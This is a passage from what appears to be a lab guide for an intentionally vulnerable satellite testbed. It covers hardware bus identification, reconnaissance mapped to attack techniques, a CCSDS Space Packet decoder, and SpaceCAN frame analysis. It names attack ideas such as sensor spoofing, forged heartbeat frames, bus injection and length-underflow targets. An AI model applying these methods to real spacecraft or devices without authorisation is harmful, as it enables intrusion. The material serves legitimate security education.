5. Compare byte patterns against known flash commands or radio register operations.

Common flash opcodes:

| Opcode | Meaning |
| --- | --- |
| `0x03` | Read data. |
| `0x0B` | Fast read. |
| `0x9F` | Read JEDEC ID. |
| `0x06` | Write enable. |

Security value:

- Flash traffic can reveal firmware access.
- Radio traffic can reveal frequencies, modulation settings, and packet behavior.
- SPI injection can be used in advanced lab scenarios to alter peripheral behavior.

## 3.3 I2C Identification

I2C is common for sensors. It uses two lines: SDA and SCL.

Characteristics:

- Two lines with pull-up resistors.
- Both lines idle high.
- SCL behaves like a clock.
- SDA changes around clock pulses.
- Common speeds are 100 kHz and 400 kHz.

Procedure:

1. Look near sensors or small peripheral ICs.
2. Find two lines that idle high.
3. Capture during boot and normal telemetry generation.
4. Decode with SDA and SCL assigned.
5. Record discovered 7-bit addresses.

Security value:

- Sensor addresses identify onboard components.
- Sensor reads reveal telemetry generation timing.
- Bus injection can be used to spoof health or environment data in a controlled lab.

## 3.4 SWD and JTAG Identification

SWD and JTAG are debug interfaces. ARM Cortex-M targets commonly expose SWD.

Common SWD pins:

- SWDIO
- SWCLK
- GND
- VREF
- RESET, optional

Indicators:

- Small grouped pads near the MCU.
- Labels such as `SWD`, `DIO`, `CLK`, `DBG`.
- One line with clock-like behavior when a debugger attaches.

Security value:

- Full memory inspection.
- Firmware extraction.
- Live debugging.
- Breakpoints in command handlers.

If debug access is enabled on a deployed system, physical access may become full device compromise.

## Step 4: Logic Analyzer Workflow

A logic analyzer turns guesses into evidence. The goal is not just to see signal changes, but to classify interfaces and extract useful protocol information.

## 4.1 Capture Strategy

Start with passive observation:

1. Connect ground.
2. Attach probes to candidate pins.
3. Set the analyzer threshold to match the logic level, usually 3.3 V logic.
4. Capture at a rate at least 4-10 times faster than the expected bus speed.
5. Trigger on reset, power-up, button press, USB connection, or RF activity.

Recommended sample rates:

| Interface | Practical Starting Rate |
| --- | --- |
| UART 115200 | 1-2 MS/s |
| I2C 100 kHz | 1-2 MS/s |
| I2C 400 kHz | 4-8 MS/s |
| SPI 1-8 MHz | 20-50 MS/s |

## 4.2 Signal Classification

Use signal shape before using protocol decoders.

| Signal Behavior | Likely Interface |
| --- | --- |
| One asynchronous line, idle high | UART TX |
| Two idle-high lines, one clock-like | I2C |
| Clock plus MOSI/MISO plus chip select | SPI |
| Short activity only when debugger attaches | SWD/JTAG |
| Constant pulse width pattern | PWM or timing output |
| No activity | Power, ground, reset, unused GPIO, or inactive peripheral |

## 4.3 Pwnsat Capture: Initial Bus Discovery

In the current capture, channels 0 and 1 remain static, while channels 2 and 3 show bursts of activity during initialization.


From the waveform:

- Channels 0 and 1 can be deprioritized for this capture.
- Channels 2 and 3 are active.
- Both active lines appear to idle high.
- One active line behaves like a clock.
- The active pair is consistent with I2C.

This is enough to test an I2C decoder.

## 4.4 Decoding as I2C

Add a protocol analyzer with:

| Setting | Value |
| --- | --- |
| Analyzer | I2C |
| SDA | Channel 2 |
| SCL | Channel 3 |
| Address display | 7-bit, address bits only |


If the decoder produces valid transactions, the hypothesis is confirmed: channels 2 and 3 are an I2C bus.

## 4.5 Interpreting I2C Results

Once the bus is decoded, record:

- Device addresses.
- Read versus write operations.
- Register addresses.
- Transaction timing.
- Whether traffic occurs only at boot or periodically.

Pwnsat's expected I2C devices include:

| Device | Common 7-bit Address | Role |
| --- | --- | --- |
| BME280 | `0x76` or `0x77` | Temperature, pressure, humidity telemetry. |
| LIS2DH12 | `0x18` or `0x19` | Accelerometer/IMU telemetry. |

If the capture shows these addresses, you can link the electrical bus to mission telemetry. That turns a waveform into a subsystem map:

```text
RP2040 -> I2C bus -> BME280 / LIS2DH12 -> telemetry packet builder -> downlink
```

**BME280 0x76 Capture**


**LIS2DH12 0x19 Capture**


## Booklet Exercise: Parse an Exported I2C Capture

Open [Booklet.ipynb](Booklet.ipynb) and run **Part 1: Logic Analyzer Export Analysis**. The exercise uses an exported logic analyzer file such as:

```text
Flatsat_v1_Initial_start_exported.txt
```

The helper [scripts/i2c_parser.py](scripts/i2c_parser.py) loads the export, groups rows into I2C transactions, infers register reads, and prints detected devices.

Example notebook workflow:

```python
from i2c_parser import parse_file

parse_file(DATA_FILE, None, None, None)
parse_file(DATA_FILE, "0x19", None, None)
parse_file(DATA_FILE, None, "0x23", None)
parse_file(DATA_FILE, None, None, "r")
```

Use the output to answer:

- Which devices appear on the I2C bus?
- Which registers are touched during startup?
- Which address is most likely the accelerometer?
- Which address is most likely the environmental sensor?
- How would spoofed sensor data affect APID `0x08` telemetry?

## 4.6 What to Extract From the Capture

The immediate deliverable is a bus table:

| Channel | Classification | Evidence | Next Step |
| --- | --- | --- | --- |
| CH0 | Static or unknown | No activity in capture. | Re-test during reset, RF activity, or button press. |
| CH1 | Static or unknown | No activity in capture. | Re-test with different trigger conditions. |
| CH2 | I2C SDA candidate | Idle high, paired with clock line, valid I2C decode. | Confirm by address decode and sensor activity. |
| CH3 | I2C SCL candidate | Clock-like bursts, valid I2C decode. | Measure bus speed and timing. |

Then produce a security interpretation:

- The board exposes sensor traffic on I2C.
- Telemetry can likely be correlated with I2C reads.
- A researcher can test sensor spoofing by controlling the bus in a lab setup.
- Defensive firmware should validate telemetry plausibility rather than blindly trusting every sensor read.

## 4.7 Follow-On Experiments

After identifying I2C, continue with controlled experiments:

1. Capture a full boot sequence and list all I2C addresses.
2. Capture during periodic telemetry downlink and compare timing.
3. Change the physical environment, such as temperature, and observe which bytes change.
4. Match changed bytes to telemetry fields in the downlink packet.
5. If authorized, disconnect or emulate a sensor and observe error handling.

The final goal is to connect physical signals to protocol fields. Once you can say "this I2C transaction becomes this telemetry payload," you are no longer only probing hardware; you are reversing the mission data path.


# Phase 1: Assisted Analysis

White-box analysis uses public information to accelerate the same discovery process performed during blind reconnaissance. Instead of starting from traces and component markings, the operator starts from repositories, firmware, schematics, documentation, and public writeups.

The risk this chapter demonstrates is often called a failure of "security by obscurity." Public design information is not automatically bad; open systems can be secure. The failure occurs when the system depends on attackers not knowing frequencies, packet formats, APIDs, debug paths, or command handlers.

**Primary SPARTA TTPs:**


- **Gather Spacecraft Design Information**
  - REC-0001.01 Software Design
  - REC-0001.02 Firmware
  - REC-0001.04 Data Bus
- **Gather Spacecraft Communications Information**
  - REC-0003.01 Communications Equipment
  - REC-0003.02 Commanding Details
  - REC-0003.03 Mission-Specific Channel Scanning
- **Eavesdropping**
  - REC-0005.01 Uplink Intercept Eavesdropping
  - REC-0005.02 Downlink Intercept
- **Gather FSW Development Information**
  - REC-0006.01 Development Environment

## Step 1: Open-Source Intelligence

The objective is to acquire the design history, technical specifications, and implementation details of the FlatSat system before touching the hardware.

Useful starting queries:

```text
"flatsat" "pwnsat"
"Pwnsat" "FlatSat"
"Pwnsat" "firmware"
"Pwnsat" "SX1262"
```

In this context:

- `FlatSat` refers to the satellite-like laboratory hardware.
- `Pwnsat` refers to the vulnerable educational mission/platform.

Relevant public sources may include:

- Main hardware repository: [Pwnsat/FlatSat](https://github.com/Pwnsat/FlatSat)
- Firmware repository: [Pwnsat/FlatSat_Firmware](https://github.com/Pwnsat/FlatSat_Firmware)
- Project blog or conference material.
- Release artifacts such as firmware binaries or ELF files.

## What to Collect

| Source              | Information to Extract                                                            |
| ------------------- | --------------------------------------------------------------------------------- |
| Hardware repository | Schematics, board layout, component list, pinout, test points.                    |
| Firmware repository | APIDs, packet format, command handlers, radio configuration.                      |
| Build files         | Toolchain, target MCU, libraries, compile flags.                                  |
| Releases            | Firmware binaries, ELF symbols, version history.                                  |
| Blog posts          | Architecture diagrams, frequencies, operator workflow, intended mission behavior. |

The output of OSINT should be a technical dossier, not a pile of links.

## Step 2: Hardware Architecture From Public Data

Public design material should be converted into a hardware table.

| Component | Description | Interface | Security Relevance |
| --- | --- | --- | --- |
| MCU | Raspberry Pi RP2040 | Dual-core ARM Cortex-M0+ | Runs flight software and packet handlers. |
| Radio 0 | SX1262 LoRa uplink | SPI0, NSS pin 17 in the observed design | Receives telecommands. |
| Radio 1 | SX1262 LoRa downlink | SPI0, NSS pin 5 in the observed design | Sends telemetry. |
| IMU | LIS2DH12 accelerometer | I2C, SDA 20, SCL 21 | Source of motion telemetry. |
| ENV | BME280 environmental sensor | I2C, SDA 20, SCL 21 | Source of environmental telemetry. |
| Status LED | WS2812B NeoPixel | GPIO 15 | Visual system state indicator. |
| USB | TinyUSB CDC | USB data lines | Local command, debugging, or ground-station simulation path. |

This table should be compared against black-box findings. If the logic analyzer found I2C on two active channels, and the schematic says both sensors are on SDA 20/SCL 21, the two discovery paths reinforce each other.

## Step 3: Firmware Architecture

The firmware uses the RP2040 as a small flight computer. The design can be understood as an asymmetric multiprocessing model:

- **Core 0, mission control and RF:** manages the radio interfaces, sensor acquisition, telemetry generation, and telecommand processing.
- **Core 1, OBC data link:** handles TinyUSB/USB CDC behavior, providing a local high-speed path for command and control or ground-station simulation.

This split matters for security because attacker-controlled input may enter through more than one path:


```mermaid
flowchart TD
A[RF Uplink] --> B[Radio Driver]
H[USB CDC] --> G[Local Input]
G --> D
B --> D[Packet Parser]
D --> E[APID dispatcher]
E --> F[Command Handler]
```

If both paths reuse the same parser, one bug can become reachable through local and RF interfaces.

## Step 4: Communication Parameters

The firmware and documentation identify two mission-specific RF paths:

| Path | Frequency | Direction | Purpose |
| --- | --- | --- | --- |
| Uplink | 918 MHz | Ground to spacecraft | Telecommands. |
| Downlink | 916 MHz | Spacecraft to ground | Telemetry. |

In a controlled lab, these values allow the researcher to configure receivers and transmitters for capture and replay testing. In real-world operations, this information would be sensitive because it narrows the scanning problem.

## Step 5: Space Packet Protocol Use

Pwnsat uses a CCSDS Space Packet Protocol-inspired format to route messages by **Application Process Identifier**, or APID.

The firmware categorizes traffic into:

- **Telecommands, TC:** commands sent to the spacecraft.
- **Telemetry, TM:** status or data sent from the spacecraft.

Observed APID registry:

| APID | Function | Type | Payload Description |
| --- | --- | --- | --- |
| `0x01` | PING | TC/TM | Connectivity heartbeat or acknowledgement. |
| `0x02` | RESET | TC | Triggers watchdog or hardware reset behavior. |
| `0x04` | THRUSTER | TC/TM | Sets or reports simulated thruster power levels. |
| `0x07` | FLASH | TC/TM | Triggers fragmented image or firmware transfer behavior. |
| `0x08` | SEND_TM | TM | Standard periodic sensor telemetry frame. |

Each APID should be treated as a separate attack surface. The question is not only "does the parser accept the packet?" but "what state changes after dispatch?"

## Step 6: Worker and Timing Analysis

The telemetry worker behaves like a non-blocking state machine. Instead of long blocking delays, it uses timeout structures to schedule periodic tasks while remaining responsive to incoming commands.

Observed timing model:

| Task | Interval | Security Relevance |
| --- | --- | --- |
| Sensor telemetry | About 10.5 seconds | Gives a downlink timing signal and sensor correlation point. |
| Sync or ping | About 15 seconds | Helps identify liveness and sequence behavior. |
| Idle frame | About 20 seconds | Helps distinguish normal background traffic from command responses. |

Timing is useful during reversing because it lets you classify packets even before every byte is understood.

Example:

```text
Every ~10.5 s: telemetry-sized downlink frame
Every ~15.0 s: short heartbeat or sync frame
After TC packet: immediate response or state change
```

## Step 7: Source Code Review Targets

When reviewing firmware, prioritize code that handles untrusted input.

| Target | What to Look For |
| --- | --- |
| Radio receive callback | Raw packet length, buffer ownership, error handling. |
| SPP parser | Header parsing, endian handling, length validation, APID extraction. |
| APID dispatcher | Default cases, missing authorization, fall-through behavior. |
| Command handlers | Unsafe copies, integer underflow/overflow, state-changing commands. |
| Telemetry builder | Sensitive data exposure, inconsistent lengths, uninitialized memory. |
| Flash handler | Fragment counting, bounds checking, write offsets. |
| Reset handler | Missing safety checks, unauthenticated denial of service. |

Red flags:

- Trusting packet length directly.
- Copying payloads before verifying bounds.
- Using APID values as array indexes without range checks.
- Accepting state-changing commands without authentication.
- Returning internal memory or diagnostic data in telemetry.
- Separate RF and USB paths with inconsistent validation.

## Step 8: White-Box to Black-Box Correlation

White-box information should be validated on the actual board.

| White-Box Claim | Black-Box Validation |
| --- | --- |
| Sensors use I2C on SDA/SCL | Capture two idle-high lines and decode addresses. |
| SX1262 radios use SPI | Capture SPI transactions during radio initialization. |
| Uplink is 918 MHz | Observe lab telecommands on configured receiver. |
| Downlink is 916 MHz | Observe periodic telemetry on configured receiver. |
| APID `0x02` resets board | Send a lab packet and confirm reboot behavior. |
| Telemetry every ~10.5 s | Measure packet timing in downlink capture. |

This correlation step prevents documentation drift from becoming a false assumption.

> Assisted analysis should make later exploitation more precise, not more reckless. The better the map, the smaller and cleaner each experiment can be.


# Part III: Protocol and RF Analysis


# Phase 2: Protocol Analysis

## Space Packet Protocol

The Consultative Committee for Space Data Systems, or **CCSDS**, publishes standards and recommended practices used across space missions. One of the most important packet formats is the **Space Packet Protocol**, or **SPP**.

SPP provides a compact packet structure for moving application data between mission components. It is used to identify packet type, route data by Application Process Identifier, track sequence counts, and carry telemetry or telecommand payloads.

The most dangerous part of a standard is often the gap between the document and the implementation. Standards describe what should happen; firmware decides what actually happens when a malformed packet arrives.

## Why Protocol Analysis Matters

In Pwnsat, the packet parser is the bridge between the radio link and the flight software. Any attacker-controlled packet must cross this boundary before it can reach a command handler.

Protocol analysis helps answer:

- Which bytes are trusted?
- How is packet length calculated?
- Which APIDs are accepted?
- Are telemetry and telecommands separated correctly?
- What happens when fields are inconsistent?
- Can malformed packets reach memory-unsafe code?

## Space Packet Layout

An SPP packet has two major parts:

1. **Packet Primary Header:** 6 bytes, mandatory.
2. **Packet Data Field:** 1 to 65,536 bytes, mandatory by the CCSDS model.

```text
|----------------------------- SPACE PACKET -----------------------------|
|  PACKET PRIMARY HEADER  |              PACKET DATA FIELD               |
|  6 octets               |----------------------------------------------|
|                         | Optional Secondary Header | User Data Field |
|                         | Variable                  | Variable        |
```

The primary header is always present and is the first parsing target.

## Packet Primary Header

The 6-byte primary header is divided into three 16-bit fields:

| Field | Size | Offset | Description |
| --- | --- | --- | --- |
| Packet Identification | 2 bytes | `0x00` | Version, packet type, secondary header flag, APID. |
| Packet Sequence Control | 2 bytes | `0x02` | Sequence flags and sequence count. |
| Packet Data Length | 2 bytes | `0x04` | Length of the packet data field minus one. |

The fields are encoded in network byte order, or big endian.

## Bit-Level Header Fields

```text
Packet Identification, 16 bits

bits 15..13   Version
bit  12       Packet Type
bit  11       Secondary Header Flag
bits 10..0    APID

Packet Sequence Control, 16 bits

bits 15..14   Sequence Flags
bits 13..0    Packet Sequence Count

Packet Data Length, 16 bits

bits 15..0    Data field length minus 1
```

## Field Meanings

| Field | Meaning |
| --- | --- |
| Version | CCSDS SPP version. It should be `0b000`. |
| Packet Type | `0` for telemetry/reporting, `1` for telecommand/requesting. |
| Secondary Header Flag | `1` when a secondary header is present, `0` when it is not. |
| APID | Application Process Identifier. Used to route the packet. |
| Sequence Flags | Describes whether the packet is segmented. |
| Sequence Count | 14-bit counter, modulo 16,384. |
| Packet Data Length | Number of bytes in the data field minus one. |

Sequence flag values:

| Value | Meaning |
| --- | --- |
| `0b00` | Continuation segment. |
| `0b01` | First segment. |
| `0b10` | Last segment. |
| `0b11` | Unsegmented data. |

The idle APID is `0x7FF`, represented by eleven `1` bits.

## Length Field Trap

The SPP length field is easy to mishandle. The stored value is not the total packet length. It is not even the raw payload length. It is:

```text
packet_data_length = length_field + 1
total_packet_length = 6 + packet_data_length
```

If the length field is `0x001E`, the packet data field is `31` bytes long, and the total packet should be `37` bytes.

This off-by-one rule is a common source of bugs:

- Allocating `length_field` bytes instead of `length_field + 1`.
- Copying `length_field + 1` bytes into a `length_field`-sized buffer.
- Accepting packets where the captured frame is shorter than the declared data field.
- Treating a zero length field as empty data, even though it means one byte of data.

The current Pwnsat firmware shows that last case in practice: `spp_unpack_packet()` copies payload bytes only when `header.length > 0`. Under a strict SPP interpretation, `header.length == 0` still declares a one-byte data field. For lab commands that need a one-byte payload, the exercises add a padding byte so the implementation copies the intended first data byte.

## Reversing Mask Table

Use this table when decoding captured frames.

| Item | Source Field | Mask or Shift |
| --- | --- | --- |
| Version | Packet Identification | `(packet_id >> 13) & 0x7` |
| Packet Type | Packet Identification | `(packet_id >> 12) & 0x1` |
| Secondary Header Flag | Packet Identification | `(packet_id >> 11) & 0x1` |
| APID | Packet Identification | `packet_id & 0x7FF` |
| Sequence Flags | Packet Sequence Control | `(sequence >> 14) & 0x3` |
| Sequence Count | Packet Sequence Control | `sequence & 0x3FFF` |
| Data Length Field | Packet Data Length | `length_field` |
| Data Field Size | Packet Data Length | `length_field + 1` |

## Sample Packet

Captured frame:

```text
00000000  08 07 00 33 00 1E 01 07 00 70 00 8F 00 52 61 62  |...3.....p...Rab|
00000010  69 74 00 00 00 00 00 00 00 00 00 00 00 A7 00 00  |it..............|
00000020  00 01 00 00 60 0A                                |....`.|
```

Raw hex:

```text
08070033001e01070070008f0052616269740000000000000000000000a7000000010000600a
```

Primary header:

| Header Field | Bytes | Value |
| --- | --- | --- |
| Packet Identification | `08 07` | `0x0807` |
| Packet Sequence Control | `00 33` | `0x0033` |
| Packet Data Length | `00 1E` | `30` |

Decoded fields:

| Item | Calculation | Value |
| --- | --- | --- |
| Version | `(0x0807 >> 13) & 0x7` | `0` |
| Packet Type | `(0x0807 >> 12) & 0x1` | `0`, telemetry |
| Secondary Header Flag | `(0x0807 >> 11) & 0x1` | `1` |
| APID | `0x0807 & 0x7FF` | `0x007` |
| Sequence Flags | `(0x0033 >> 14) & 0x3` | `0`, continuation |
| Sequence Count | `0x0033 & 0x3FFF` | `51` |
| Data Length Field | `0x001E` | `30` |
| Data Field Size | `30 + 1` | `31` bytes |

The frame contains 38 bytes in the sample as written. A strict CCSDS interpretation of `0x001E` expects a total length of 37 bytes: 6 header bytes plus 31 data bytes. The extra trailing byte should be investigated as a transport artifact, padding byte, capture boundary issue, or implementation-specific deviation.

This is exactly why protocol analysis must compare the standard, the implementation, and the capture.

## Working Decoder

The following decoder is intentionally small. It validates the primary header, extracts bit fields, computes the expected data length, and reports whether the captured frame has trailing bytes.

```python
#!/usr/bin/env python3
import struct
import string
from dataclasses import dataclass


SEQ_FLAGS = {
    0b00: "Continuation",
    0b01: "First segment",
    0b10: "Last segment",
    0b11: "Unsegmented",
}


def hexdump(data: bytes, width: int = 16) -> str:
    lines = []
    for offset in range(0, len(data), width):
        chunk = data[offset : offset + width]
        hex_bytes = " ".join(f"{byte:02X}" for byte in chunk)
        hex_bytes = hex_bytes.ljust(width * 3)
        ascii_bytes = "".join(
            chr(byte) if chr(byte) in string.printable and byte >= 0x20 else "."
            for byte in chunk
        )
        lines.append(f"{offset:08X}  {hex_bytes}  {ascii_bytes}")
    return "\n".join(lines)


@dataclass
class SpacePacket:
    raw: bytes
    packet_id: int
    sequence: int
    length_field: int
    version: int
    packet_type: int
    secondary_header: int
    apid: int
    sequence_flags: int
    sequence_count: int
    data_field_size: int
    data_field: bytes
    trailing: bytes

    @classmethod
    def decode(cls, raw: bytes) -> "SpacePacket":
        if len(raw) < 7:
            raise ValueError("A CCSDS Space Packet must be at least 7 bytes")

        packet_id, sequence, length_field = struct.unpack_from(">HHH", raw, 0)

        version = (packet_id >> 13) & 0x7
        packet_type = (packet_id >> 12) & 0x1
        secondary_header = (packet_id >> 11) & 0x1
        apid = packet_id & 0x7FF

        sequence_flags = (sequence >> 14) & 0x3
        sequence_count = sequence & 0x3FFF

        data_field_size = length_field + 1
        expected_total = 6 + data_field_size

        if len(raw) < expected_total:
            raise ValueError(
                f"Truncated packet: expected {expected_total} bytes, got {len(raw)}"
            )

        data_field = raw[6:expected_total]
        trailing = raw[expected_total:]

        return cls(
            raw=raw,
            packet_id=packet_id,
            sequence=sequence,
            length_field=length_field,
            version=version,
            packet_type=packet_type,
            secondary_header=secondary_header,
            apid=apid,
            sequence_flags=sequence_flags,
            sequence_count=sequence_count,
            data_field_size=data_field_size,
            data_field=data_field,
            trailing=trailing,
        )

    def print_report(self) -> None:
        packet_type_name = "TM" if self.packet_type == 0 else "TC"
        print("=========== Space Packet ===========")
        print(f"Version:              {self.version}")
        print(f"Type:                 {self.packet_type} ({packet_type_name})")
        print(f"Secondary Header:     {self.secondary_header}")
        print(f"APID:                 0x{self.apid:03X}")
        print(
            f"Sequence Flags:       0b{self.sequence_flags:02b} "
            f"({SEQ_FLAGS[self.sequence_flags]})"
        )
        print(f"Sequence Count:       {self.sequence_count}")
        print(f"Length Field:         {self.length_field}")
        print(f"Data Field Size:      {self.data_field_size} bytes")
        print(f"Captured Bytes:       {len(self.raw)}")
        print()
        print("[HEADER]")
        print(hexdump(self.raw[:6]))
        print()
        print("[DATA FIELD]")
        print(hexdump(self.data_field))
        if self.trailing:
            print()
            print("[TRAILING BYTES]")
            print(hexdump(self.trailing))


if __name__ == "__main__":
    sample = bytes.fromhex(
        "08070033001e01070070008f005261626974"
        "0000000000000000000000a7000000010000600a"
    )
    packet = SpacePacket.decode(sample)
    packet.print_report()
```

Expected output:

```text
=========== Space Packet ===========
Version:              0
Type:                 0 (TM)
Secondary Header:     1
APID:                 0x007
Sequence Flags:       0b00 (Continuation)
Sequence Count:       51
Length Field:         30
Data Field Size:      31 bytes
Captured Bytes:       38

[HEADER]
00000000  08 07 00 33 00 1E                                ...3..

[DATA FIELD]
00000000  01 07 00 70 00 8F 00 52 61 62 69 74 00 00 00 00   ...p...Rabit....
00000010  00 00 00 00 00 00 00 A7 00 00 00 01 00 00 60      ..............`

[TRAILING BYTES]
00000000  0A                                                .
```

## Turning the Decoder Into an Analysis Tool

For reversing, extend the decoder in small steps:

1. Add APID names.
2. Add packet type names.
3. Add command-specific payload parsers.
4. Validate allowed APID/type combinations.
5. Reject impossible length combinations.
6. Log unknown packets as test cases.

Example APID registry:

```python
APIDS = {
    0x01: "PING",
    0x02: "RESET",
    0x04: "THRUSTER",
    0x07: "FLASH",
    0x08: "SEND_TM",
    0x7FF: "IDLE",
}
```

Then the report can include:

```python
print(f"APID Name:            {APIDS.get(self.apid, 'UNKNOWN')}")
```

## Booklet Exercise: Decode and Build SPP Packets

Open [Booklet.ipynb](Booklet.ipynb) and run **Part 2: Space Packet Protocol Exercises**. The helper [scripts/spp_tools.py](scripts/spp_tools.py) provides small packet-building and decoding functions for offline practice.

The notebook walks through:

- Decoding the sample telemetry frame from this chapter.
- Building a safe APID `0x01` PING telecommand.
- Building an APID `0x03` firmware-version request.
- Building an APID `0x04` thruster-state command.
- Inspecting a malformed APID `0x06` broadcast packet as an underflow candidate.

The point is not to transmit. The point is to connect bytes to firmware behavior before moving to USB or RF delivery.

## SpaceCAN Protocol Analysis

SPP describes the packet format used by the command and telemetry path. SpaceCAN describes a different layer of the spacecraft model: the internal controller-to-subsystem bus. In a real small spacecraft, this kind of bus is where the on-board computer talks to power, payload, attitude, radio, and sensor nodes. In this repository, [spacecan_lib](spacecan_lib/README.md) provides a simulated C implementation that lets the reader study that bus without physical CAN hardware.

The reference SpaceCAN standard is published by LibreCube at `https://librecube.gitlab.io/standards/spacecan/`. The design goal is a small, reliable CAN-based bus for control and monitoring between one controller node and multiple responder nodes. It is not intended for high-volume science data. It is intended for commands, status, housekeeping, synchronization, time distribution, and small service packets.

> **Implementation note:** The local `spacecan_lib` README states that version `1.0.0` is not a full implementation of the LibreCube SpaceCAN standard. Treat the library as a research and training model. It implements the pieces needed for bus emulation, request/reply frames, heartbeat/SYNC behavior, fragmentation, sniffing, replay, and injection exercises, but it should not be described as a complete standards-compliant flight implementation.

At a high level, SpaceCAN separates three ideas:

1. **Physical and link layer:** CAN frames with an 11-bit identifier and up to 8 data bytes.
2. **Bus role model:** one controller, usually node ID `0`, and responder nodes, usually node IDs `1` through `127`.
3. **Application meaning:** request, reply, heartbeat, synchronization, time, and optional service protocol data carried inside CAN frames.

The security lesson is that the CAN identifier is not only an address. It is also a priority and message-class field. Lower CAN IDs win arbitration on a real CAN bus, so identifier choice affects timing and authority. A forged low-ID frame can be more than a fake message; it can become a bus-control primitive.

```text
External command path                         Internal bus path

Ground / lab host
  -> RF or USB
  -> SPP parser
  -> APID command handler
  -> controller logic
  -> SpaceCAN request/reply/sync/heartbeat
  -> responder node behavior
```

## SpaceCAN Topology and Roles

LibreCube SpaceCAN uses a controller/responder topology. The controller commands responders and collects status. Responders do not normally talk directly to each other; if data must move between responders, the controller coordinates the exchange. That model matters for security because it creates a clear authority boundary:

| Role | Typical Node ID | Expected Behavior | Security Question |
| --- | --- | --- | --- |
| Controller | `0` | Sends requests, heartbeat, SYNC, and time frames. | Can an attacker impersonate the controller? |
| Responder | `1..127` | Sends replies and housekeeping to the controller. | Can an attacker spoof a responder's telemetry? |
| Passive observer | none | Receives traffic without transmitting. | What can be learned from cadence and payloads? |
| Rogue node | any forged ID | Sends frames not authorized by bus policy. | Do nodes authenticate source or only trust CAN ID? |

The local library models nodes with `spacecan_bus_node_t`. A node stores `node_id`, state, controller flags, heartbeat timing, SYNC timing, and a receive callback. The virtual bus broadcasts frames to connected clients through `/tmp/spacecan.sock`, so the exercises can be performed as Unix processes instead of physical CAN devices.

## SpaceCAN CAN-ID Format

SpaceCAN uses the 11-bit standard CAN identifier. The reference layout follows the ECSS-CAN idea of splitting the identifier into a function/object region and a 7-bit node ID. The local library defines the same practical masks:

```c
#define CAN_FULL_MASK     0x7FF
#define CAN_FUNCTION_MASK 0x780
#define CAN_NODE_MASK     0x07F
```

The current local constants are:

| Object | CAN ID Pattern | Originator in the Model | Meaning |
| --- | --- | --- | --- |
| Heartbeat | `0x700` family | Controller or local simulated node | Node liveness/state signal. |
| SYNC | `0x080` family | Controller or local simulated node | Timing pulse for synchronized behavior. |
| SCET time | `0x180` | Controller | Spacecraft elapsed time distribution. |
| UTC time | `0x200` | Controller | UTC-like time distribution in the local constants. |
| Request | `0x280 + node_id` | Controller | Command or query sent to a responder. |
| Reply | `0x300 + node_id` | Responder | Status, telemetry, or response sent to controller. |

For request and reply traffic, the node ID is recovered from the lower seven bits:

```text
request_id(node) = 0x280 + (node_id & 0x7F)
reply_id(node)   = 0x300 + (node_id & 0x7F)
node_id          = can_id & 0x7F
function_class   = can_id & 0x780
```

Example: CAN ID `0x284` is a request to node `0x04`; CAN ID `0x304` is a reply from node `0x04`.

```text
11-bit CAN ID: 0x284

binary: 010 1000 0100
        ^^^ ^^^^ ^^^^
        |   |    |
        |   |    +-- lower 7 bits: node ID 0x04
        +---+------- function/object region: request family 0x280
```

## SpaceCAN Frame Payloads

A normal CAN data frame can carry at most 8 data bytes. SpaceCAN therefore has two useful payload modes:

| Mode | Payload Capacity | Use |
| --- | --- | --- |
| Direct request/reply | `0..8` bytes | Small commands, status values, or housekeeping samples. |
| Packet fragmentation | Up to multiple 6-byte chunks | Larger application packets split over request/reply frames. |

The local direct builders are intentionally simple:

```c
int sc_build_request(spacecan_frame_t *frame, uint8_t node_id,
                     const uint8_t *payload, size_t len);

int sc_build_reply(spacecan_frame_t *frame, uint8_t node_id,
                   const uint8_t *payload, size_t len);
```

Both reject payloads larger than 8 bytes, set the CAN ID from the node ID, set `dlc`, zero the buffer, and copy the payload. There is no authentication, freshness check, or application schema validation at this layer. Those controls would need to be added above the frame builder or enforced by each receiving node.

## SpaceCAN Packet Fragmentation

The reference SpaceCAN packet protocol works around the 8-byte CAN limit by reserving the first two data bytes as a fragmentation header and using the remaining six bytes for packet data. The local implementation follows this shape:

```text
Byte 0: total number of frames minus 1
Byte 1: current frame sequence number, starting at 0
Byte 2..7: up to 6 bytes of packet data
```

A 15-byte packet becomes three CAN frames:

```text
Frame 0: [02 00] [DE AD BE EF 01 02]
Frame 1: [02 01] [03 04 05 06 07 08]
Frame 2: [02 02] [AA BB CC]
```

The local implementation defines:

```c
#define MAX_PACKET_SIZE 256
#define MAX_DATA_LEN 8
#define PAYLOAD_HEADER_LEN 2
#define MAX_CHUNK_LEN 6
#define SC_MAX_FRAGMENTS 43
```

Because each fragment carries six payload bytes, 43 fragments can represent up to 258 fragment bytes, while `MAX_PACKET_SIZE` is 256. The builder rejects input larger than 256 bytes, but protocol analysis should still test reassembly behavior at the boundary because a receiver may see attacker-supplied fragments rather than locally built fragments.

Reassembly stores fragments by sequence number, records per-fragment sizes, and returns a completed packet only after every expected sequence number has arrived. It accepts out-of-order delivery, which is useful for CAN behavior, but it also means the receiver must carefully define duplicate, stale, mixed-CAN-ID, and timeout behavior.

## Heartbeat, SYNC, and Timing Traffic

SpaceCAN heartbeat and SYNC frames are operational signals, not just telemetry.

| Signal | Standard Role | Security-Relevant Abuse |
| --- | --- | --- |
| Heartbeat | Lets nodes determine whether the active bus/controller is alive. | Forged heartbeat can mask failure or influence redundancy decisions. |
| SYNC | Tells responders to perform periodic application behavior. | Forged or high-rate SYNC can alter telemetry cadence or load. |
| Time | Distributes spacecraft time to local time consumers. | Forged time can affect logs, schedules, and freshness checks. |

The local library's heartbeat builder uses a one-byte state payload:

```text
0x00 = INIT
0x01 = OPERATIONAL
0x09 = ERROR
```

That is useful for lab visualization, but it is also a good reminder: once state is represented as unauthenticated bus traffic, a rogue process or node can try to create false health views.

## SpaceCAN Analysis Workflow

Use this workflow when analyzing SpaceCAN traffic:

1. Capture raw frames with timestamp, CAN ID, DLC, and data bytes.
2. Classify each CAN ID by function family: heartbeat, SYNC, request, reply, time, or unknown.
3. Extract node ID from the lower seven bits when the frame belongs to a node-addressed family.
4. Build a per-node timeline of requests, replies, heartbeat state, and timing changes.
5. Detect fragmented packets by looking for `data[0] = total_minus_one` and `data[1] = sequence`.
6. Reassemble only frames that share the expected CAN ID, total count, and timing window.
7. Compare observed behavior to the source code and the LibreCube reference.

For each frame, record the following analysis fields:

| Field | Example | Why It Matters |
| --- | --- | --- |
| Timestamp | `1710000000.123` | Reveals cadence, replay timing, and floods. |
| CAN ID | `0x284` | Encodes function class and node. |
| Function | `REQ` | Separates command-like frames from telemetry-like frames. |
| Node ID | `0x04` | Identifies target or source node. |
